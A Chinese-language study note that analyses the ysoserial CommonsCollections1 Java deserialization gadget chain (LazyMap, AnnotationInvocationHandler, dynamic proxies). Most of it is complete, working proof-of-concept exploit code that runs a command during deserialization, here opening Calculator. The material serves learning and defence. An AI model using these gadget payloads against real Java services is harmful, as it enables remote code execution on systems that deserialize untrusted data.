


# CommonsCollections1利用链分析

## 前言

这里开始学习分析`ysoserial`工具中的第一条`CommonsCollections`利用链，根据`payload`名称称呼为`CommonsCollections1`


利用版本：CommonsCollections 3.1 - 3.2.1
限制：jdk 8u71 版本之前

## 利用链分析

我们先看一下`ysoserial`实现`CommonsCollections1`的关键源码：
```java
public InvocationHandler getObject(final String command) throws Exception {
		final String[] execArgs = new String[] { command };
		// inert chain for setup
		final Transformer transformerChain = new ChainedTransformer(
			new Transformer[]{ new ConstantTransformer(1) });
		// real chain for after setup
		final Transformer[] transformers = new Transformer[] {
				new ConstantTransformer(Runtime.class),
				new InvokerTransformer("getMethod", new Class[] {
					String.class, Class[].class }, new Object[] {
					"getRuntime", new Class[0] }),
				new InvokerTransformer("invoke", new Class[] {
					Object.class, Object[].class }, new Object[] {
					null, new Object[0] }),
				new InvokerTransformer("exec",
					new Class[] { String.class }, execArgs),
				new ConstantTransformer(1) };

		final Map innerMap = new HashMap();

		final Map lazyMap = LazyMap.decorate(innerMap, transformerChain);

		final Map mapProxy = Gadgets.createMemoitizedProxy(lazyMap, Map.class);

		final InvocationHandler handler = Gadgets.createMemoizedInvocationHandler(mapProxy);

		Reflections.setFieldValue(transformerChain, "iTransformers", transformers); // arm with actual transformer chain

		return handler;
	}
```

可以看到前面部分和我们在[《CommonsCollections链分析》](./01-Java安全基础/5-Java反序列化/1-CommonsCollections.md)中构造的一样，不一样的是不再利用`transformedMap`类去调用`transform()`方法，而是使用了`LazyMap`中的方法，同时使用到了动态代理的知识。

## LazyMap

这条链子既然选择使用`LazyMap`类，那必然是该类中也有调用`transform()`的方法，我们看一下`LazyMap`类的源码：
```java
public class LazyMap extends AbstractMapDecorator implements Map, Serializable {
    private static final long serialVersionUID = 7990956402564206740L;
    protected final Transformer factory;

    public static Map decorate(Map map, Factory factory) {
        return new LazyMap(map, factory);
    }

    public static Map decorate(Map map, Transformer factory) {
        return new LazyMap(map, factory);
    }

    protected LazyMap(Map map, Factory factory) {
        super(map);
        if (factory == null) {
            throw new IllegalArgumentException("Factory must not be null");
        } else {
            this.factory = FactoryTransformer.getInstance(factory);
        }
    }

    protected LazyMap(Map map, Transformer factory) {
        super(map);
        if (factory == null) {
            throw new IllegalArgumentException("Factory must not be null");
        } else {
            this.factory = factory;
        }
    }

    private void writeObject(ObjectOutputStream out) throws IOException {
        out.defaultWriteObject();
        out.writeObject(super.map);
    }

    private void readObject(ObjectInputStream in) throws IOException, ClassNotFoundException {
        in.defaultReadObject();
        super.map = (Map)in.readObject();
    }

    public Object get(Object key) {
        if (!super.map.containsKey(key)) {
            Object value = this.factory.transform(key);
            super.map.put(key, value);
            return value;
        } else {
            return super.map.get(key);
        }
    }
}
```

可以看到在`get()`方法中，检查`key`是否在`map`中，如果不存在就会调用`factory.transform()`方法生成`value`放进`map`中。我们从头跟起看看`factory`参数是什么内容。

POC 中从👇🏻开始进入`LazyMap`类
```java
final Map lazyMap = LazyMap.decorate(innerMap, transformerChain);
```

跟进`LazyMap`类的`decorate`方法，`return`到构造方法`LazyMap()`中，其中`factory`参数则是`ChainedTransformer`。


到这里发现没有调用到`LazyMap`中的`get()`方法，那么关键的`get()`方法在哪里调用的？`ysoserial`中的`gadget`已经给了我们答案
```java
Gadget chain:
		ObjectInputStream.readObject()
			AnnotationInvocationHandler.readObject()
				Map(Proxy).entrySet()
					AnnotationInvocationHandler.invoke()
						LazyMap.get()
							ChainedTransformer.transform()
								ConstantTransformer.transform()
								InvokerTransformer.transform()
									Method.invoke()
										Class.getMethod()
								InvokerTransformer.transform()
									Method.invoke()
										Runtime.getRuntime()
								InvokerTransformer.transform()
									Method.invoke()
										Runtime.exec()
```

## AnnotationInvocationHandler

在给出的`gadget`中，调用了`AnnotationInvocationHandler`类的`invoke()`方法之后能进入`get()`方法中，源码如下：


接下来就是如何去调用到`AnnotationInvocationHandler`的`invoke()`方法，前辈们已经给出了解决方案就是使用动态代理的方式。

在前面 [《动态代理》](../../00-JavaSE/3-动态代理/动态代理.md)章节我们已经学习过相关知识，这里写一个简单的 demo 回顾一下：
```java
package com.serialize;

import org.apache.commons.collections.ProxyMap;

import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Method;
import java.lang.reflect.Proxy;
import java.util.HashMap;
import java.util.Map;

/**
 * Created by dotast on 2022/9/22 22:55
 */
public class ProxyDemo {
    public static void main(String[] args){
        InvocationHandler handler = new Demo(new HashMap<>());
        Map proxyMap = (Map) Proxy.newProxyInstance(Map.class.getClassLoader(), new Class[]{Map.class}, handler);
        proxyMap.put("name","admin");
        String result = (String) proxyMap.get("name");
        System.out.println(result);
    }

}

class Demo implements InvocationHandler{
    private Map map;

    public Demo(Map map){
        this.map = map;
    }

    @Override
    public Object invoke(Object proxy, Method method, Object[] args) throws Throwable {
        if (method.getName().equals("get")) {
            return "dotast";
        }
        System.out.println("success");
        return method.invoke(this.map,args);
    }
}
```


从结果中可以看到，动态代理的对象执行方法的时候，转发到了实现接口`InvocationHandler`的`Demo`类里并执行`invoke()`方法，把我们存储的值`admin`改成了`dotast`，并打印出`success`字符串。

而`AnnotationInvocationHandler`类正好是实现了`InvocationHandler`接口的类，因此我们可以通过动态代理的方式去调用到`AnnotationInvocationHandler`类的`invoke()`方法


因此我们可以写出初步的 POC：
```java
package com.serialize;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.LazyMap;

import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.util.HashMap;
import java.util.Map;

/**
 * Created by dotast on 2022/9/19 22:00
 */
public class CommonsCollections1 {
    public static void main(String[] args) throws Exception {
        CommonsCollections1 transformerTest = new CommonsCollections1();
        transformerTest.serialize();
        transformerTest.unserialize();
    }

    /*
     * 客户端
     * */
    public void  serialize() throws Exception{
        String cmd = "open -a Calculator.app";

        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                // new Class[0]为占位符
                new InvokerTransformer(
                        "getMethod",new Class[]{String.class, Class[].class},new Object[]{"getRuntime",new Class[0]}
                ),
                new InvokerTransformer(
                        "invoke",new Class[]{Object.class, Object[].class},new Object[]{null, new Object[0]}
                ),
                new InvokerTransformer(
                        "exec", new Class[]{String.class}, new Object[]{cmd}
                )
        };
        // 创建ChainedTransformer调用链
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
        Map innerMap = new HashMap<>();
        Map outerMap = LazyMap.decorate(innerMap, chainedTransformer);
        // 获取AnnotationInvocationHandler类对象
        Class cls = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        // 获取AnnotationInvocationHandler类的构造方法
        Constructor constructor = cls.getDeclaredConstructor(Class.class, Map.class);
        // 设置方法访问权限
        constructor.setAccessible(true);
        InvocationHandler mapHandler = (InvocationHandler) constructor.newInstance(Override.class, outerMap);
        Map proxyMap = (Map) Proxy.newProxyInstance(Map.class.getClassLoader(), new Class[]{Map.class}, mapHandler);
        FileOutputStream fileOutputStream = new FileOutputStream("1.txt");
        // 创建并实例化对象输出流
        ObjectOutputStream out = new ObjectOutputStream(fileOutputStream);
        out.writeObject(proxyMap);
    }

    /*
     * 服务端
     *  */
    public void unserialize() throws Exception{
        // 创建并实例化文件输入流
        FileInputStream fileInputStream = new FileInputStream("1.txt");
        // 创建并实例化对象输入流
        ObjectInputStream in = new ObjectInputStream(fileInputStream);
        in.readObject();
    }
}

```

但运行后，经过反序列化并不会执行命令弹出计算器。断点调试一下，发现`memberValues`变量的赋值为`LazyMap`


因此在经过`this.memberValues.entrySet().iterator();`步入到`var4.next()`执行方法时，无法进入`AnnotationInvocationHandler`类的`invoke()`方法


所以我们需要再创建一次`AnnotationInvocationHandler`，触发我们前面的代理对象，最终 POC如下：
```java
package com.serialize;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.LazyMap;

import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.util.HashMap;
import java.util.Map;

/**
 * Created by dotast on 2022/9/19 22:00
 */
public class CommonsCollections1 {
    public static void main(String[] args) throws Exception {
        CommonsCollections1 transformerTest = new CommonsCollections1();
        transformerTest.serialize();
        transformerTest.unserialize();
    }

    /*
     * 客户端
     * */
    public void  serialize() throws Exception{
        String cmd = "open -a Calculator.app";

        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                // new Class[0]为占位符
                new InvokerTransformer(
                        "getMethod",new Class[]{String.class, Class[].class},new Object[]{"getRuntime",new Class[0]}
                ),
                new InvokerTransformer(
                        "invoke",new Class[]{Object.class, Object[].class},new Object[]{null, new Object[0]}
                ),
                new InvokerTransformer(
                        "exec", new Class[]{String.class}, new Object[]{cmd}
                )
        };
        // 创建ChainedTransformer调用链
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
        Map innerMap = new HashMap<>();
        Map outerMap = LazyMap.decorate(innerMap, chainedTransformer);
        // 获取AnnotationInvocationHandler类对象
        Class cls = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        // 获取AnnotationInvocationHandler类的构造方法
        Constructor constructor = cls.getDeclaredConstructor(Class.class, Map.class);
        // 设置方法访问权限
        constructor.setAccessible(true);
        InvocationHandler mapHandler = (InvocationHandler) constructor.newInstance(Override.class, outerMap);
        Map proxyMap = (Map) Proxy.newProxyInstance(Map.class.getClassLoader(), new Class[]{Map.class}, mapHandler);
        InvocationHandler handler = (InvocationHandler) constructor.newInstance(Override.class, proxyMap);
        FileOutputStream fileOutputStream = new FileOutputStream("1.txt");
        // 创建并实例化对象输出流
        ObjectOutputStream out = new ObjectOutputStream(fileOutputStream);
        out.writeObject(handler);
    }

    /*
     * 服务端
     *  */
    public void unserialize() throws Exception{
        // 创建并实例化文件输入流
        FileInputStream fileInputStream = new FileInputStream("1.txt");
        // 创建并实例化对象输入流
        ObjectInputStream in = new ObjectInputStream(fileInputStream);
        in.readObject();
    }
}
```



通过把前面的`proxyMap`作为构造方法的参数传入，此时的`memberValues`为我们的代理对象`proxyMap`，也就是`AnnotationInvocationHandler`实例


经过`this.memberValues.entrySet()`步入到`var4.next()`之后，成功进入到被代理的`AnnotationInvocationHandler`类的`invoke()`方法中。

此时的`memberValues`参数值就是前面第一次代理的时候的`LazyMap`，因此可以调用到`LazyMap.get()`方法，触发命令执行。


## 坑点

在前面调试的时候，在未进入`readObject()`反序列化方法时，就弹出了计算器，原因是在第一次代理了`map`对象后，在执行`map`类的任意方法都会触发构造的`payload`，而由于`IDEA`中`Debug`的过程中会调用到代理类的`toString`方法从而造成非预期的命令执行。

解决方案是取消掉这两处的✅


当前也可以参照`ysoserial`的处理


先在开头设置一个没有危害的对象，在最后进行序列化的时候再把真正具有危害的`transformers`数组替换，从而避免了非预期的 rce
```java
package com.serialize;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.LazyMap;

import java.io.*;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.util.HashMap;
import java.util.Map;

/**
 * Created by dotast on 2022/9/19 22:00
 */
public class CommonsCollections1 {
    public static void main(String[] args) throws Exception {
        CommonsCollections1 transformerTest = new CommonsCollections1();
        transformerTest.serialize();
        transformerTest.unserialize();
    }

    /*
     * 客户端
     * */
    public void  serialize() throws Exception{
        String cmd = "open -a Calculator.app";

        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                // new Class[0]为占位符
                new InvokerTransformer(
                        "getMethod",new Class[]{String.class, Class[].class},new Object[]{"getRuntime",new Class[0]}
                ),
                new InvokerTransformer(
                        "invoke",new Class[]{Object.class, Object[].class},new Object[]{null, new Object[0]}
                ),
                new InvokerTransformer(
                        "exec", new Class[]{String.class}, new Object[]{cmd}
                )
        };
        // 创建虚假的调用链
        Transformer[] fakeTransformers = new Transformer[]{new ConstantTransformer(1)};
        ChainedTransformer chainedTransformer = new ChainedTransformer(fakeTransformers);

        Map innerMap = new HashMap<>();
        Map outerMap = LazyMap.decorate(innerMap, chainedTransformer);
        // 获取AnnotationInvocationHandler类对象
        Class cls = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        // 获取AnnotationInvocationHandler类的构造方法
        Constructor constructor = cls.getDeclaredConstructor(Class.class, Map.class);
        // 设置方法访问权限
        constructor.setAccessible(true);
        InvocationHandler mapHandler = (InvocationHandler) constructor.newInstance(Override.class, outerMap);
        Map proxyMap = (Map) Proxy.newProxyInstance(Map.class.getClassLoader(), new Class[]{Map.class}, mapHandler);
        InvocationHandler handler = (InvocationHandler) constructor.newInstance(Override.class, proxyMap);
        // 将真正的利用链数组设置到ChainedTransformer里面的iTransformers字段值
        Field f = ChainedTransformer.class.getDeclaredField("iTransformers");
        f.setAccessible(true);
        f.set(chainedTransformer, transformers);
        FileOutputStream fileOutputStream = new FileOutputStream("1.txt");
        // 创建并实例化对象输出流
        ObjectOutputStream out = new ObjectOutputStream(fileOutputStream);
        out.writeObject(handler);
    }

    /*
     * 服务端
     *  */
    public void unserialize() throws Exception{
        // 创建并实例化文件输入流
        FileInputStream fileInputStream = new FileInputStream("1.txt");
        // 创建并实例化对象输入流
        ObjectInputStream in = new ObjectInputStream(fileInputStream);
        in.readObject();
    }
}
```

